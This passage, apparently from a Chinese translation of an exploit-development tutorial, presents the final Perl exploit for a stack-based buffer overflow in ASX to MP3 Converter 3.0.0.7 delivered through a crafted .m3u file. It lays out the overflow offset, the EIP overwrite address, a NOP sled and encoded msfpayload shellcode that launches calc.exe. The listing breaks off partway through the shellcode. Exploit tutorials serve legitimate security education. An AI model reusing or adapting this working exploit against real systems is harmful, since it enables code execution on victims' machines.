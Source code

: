 ## 把它放在一起

现在我们有了227字节的shellcode，我们的最终缓冲区看起来像这样（注意，如果我们想要使用不同的更大的shellcode，我们还有4796字节可用）

![](../Images/WED/2.39.png)

这是我们的最终漏洞利用代码：

    #!/usr/bin/perl
    #########################################################################
    # Exploit Title: ASX to MP3 Converter 3.0.0.7 (.m3u) Stack-Based BOF
    # Date: 12-13-2013
    # Exploit Author: Mike Czumak (T_v3rn1x) — @SecuritySift
    # Vulnerable Software/Version: ASX to MP3 Converter 3.0.0.7
    # Link: http://www.mini-stream.net/asx-to-mp3-converter/download/
    # Tested On: Windows XP SP3
    # Credits:
    # — Original POC by Cyber-Zone: http://www.exploit-db.com/exploits/8407/
    #########################################################################
    
    my $buffsize = 50000; # sets buffer size for consistent sized payload
    my $junk = “\x41” x 26121; # offset to EIP overwrite
    my $eip = pack(‘V’, 0x01C27228); # call ebp (MSA2Mcodec00.dll) – YOURS WILL DIFFER!
    my $nops = “\x90” x 18752;
    
    # msfpayload windows/exec CMD=calc.exe R |
    # msfencode -e x86/shikata_ga_nai -c 1 -t perl -b ‘\x00\x0a\x0d\xff’
    # size 227
    my $shell =
    “\xba\x8d\xf5\x02\x51\xda\xc0\xd9\x74\x24\xf4\x5b\x2b\xc9” .
    “\xb1\x33\x31\x53\x12\x03\x53\x12\x83\x66\x09\xe0\xa4\x84” .
    “\x1a\x6c\x46\x74\xdb\x0f\xce\x91\xea\x1d\xb4\xd2\x5f\x92” .
    “\xbe\xb6\x53\x59\x92\x22\xe7\x2f\x3b\x45\x40\x85\x1d\x68” .
    “\x51\x2b\xa2\x26\x91\x2d\x5e\x34\xc6\x8d\x5f\xf7\x1b\xcf” .
    “\x98\xe5\xd4\x9d\x71\x62\x46\x32\xf5\x36\x5b\x33\xd9\x3d” .
    “\xe3\x4b\x5c\x81\x90\xe1\x5f\xd1\x09\x7d\x17\xc9\x22\xd9” .